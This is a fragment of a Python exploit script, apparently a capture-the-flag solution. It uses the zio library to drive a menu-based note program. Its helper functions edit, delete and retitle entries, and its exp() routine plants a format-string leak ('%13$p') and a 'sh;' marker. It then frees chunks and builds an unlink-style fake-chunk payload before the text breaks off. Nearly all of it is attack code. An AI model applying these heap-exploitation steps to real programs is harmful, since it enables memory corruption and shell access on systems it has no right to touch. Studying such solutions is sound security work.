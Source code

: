 ```
 
def edit(io, id, offset, content):
    io.read_until('&gt;&gt;')
    io.writeline('3')
    io.read_until(':')
    io.writeline(str(id))
    io.read_until(':')
    io.writeline(str(offset))
    io.read_until(":")
    io.writeline(content)
 
def edit2(io, id, offset, content):
    count = len(content)/48
    print len(content)
    print count
    for i in range(count):
        io.read_until('&gt;&gt;')
        io.writeline('3')
        io.read_until(':')
        io.writeline(str(id))
        io.read_until(':')
        io.writeline(str(offset+48*i))
        io.read_until(":")
        io.write(content[i*48:i*48+48])
    if len(content[count*48:]) &gt; 0:
        io.read_until('&gt;&gt;')
        io.writeline('3')
        io.read_until(':')
        io.writeline(str(id))
        io.read_until(':')
        io.writeline(str(offset+48*count))
        io.read_until(':')
        io.writeline(content[count*48:])
 
def delete(io, id):
    io.read_until('&gt;&gt;')
    io.writeline('4')
    io.read_until(':')
    io.writeline(str(id))
 
def change(io, id, title):
    io.read_until('&gt;&gt;')
    io.writeline('5')
    io.read_until(':')
    io.writeline(str(id))
    io.read_until(':')
    io.writeline(title)
 
def exp(target):
    io = zio(target, timeout=10000, print_read=COLORED(RAW, 'red'), 
             print_write=COLORED(RAW, 'green'))
    add(io, '%13$p', 0x100, '111') #0x603070 0x603110   #0
    add(io, '222', 0x100, '222') #0x603280 0x603320   #1
    add(io, '333', 0x100, '333') #0x603490 0x603530   #2
    add(io, '444', 0x100, '444') #0x6036a0 0x603740   #3
    add(io, 'sh;', 0x100, '555') #0x6038b0 0x603950   #4
    add(io, '666', 0x100, '666') #0x603ac0 0x603b60   #5
 
    delete(io, 1)
    delete(io, 2)
 
    heap_ptr = 0x6020f0
    payload = l64(0) + l64(0x211) +l64(heap_ptr-0x18)+l64(heap_ptr-0x10)
```